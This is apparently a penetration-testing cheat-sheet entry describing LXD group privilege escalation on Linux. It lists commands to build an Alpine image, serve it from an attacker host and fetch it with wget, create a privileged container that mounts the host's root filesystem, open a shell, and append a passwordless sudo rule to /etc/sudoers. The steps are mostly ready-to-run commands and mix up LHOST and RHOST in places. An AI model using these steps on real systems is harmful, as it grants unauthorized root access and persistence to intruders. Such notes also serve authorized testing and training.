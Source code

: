 # LXD Group

Firstly get and create lxd image, then transfer it to RHOST

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine


python3 -m http.server 8000
wget http://LHOST:8000/apline-XXX.tar.gz
```



Second step is to import image and run container with mounted LHOST disk

```
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

```



Then you have root access to LHOST recources under /mnt/root, and you can modify sudoers file

```
cd /mnt/root/etc
echo "USERNAME ALL=(ALL) NOPASSWD: ALL" >> sudoers

```

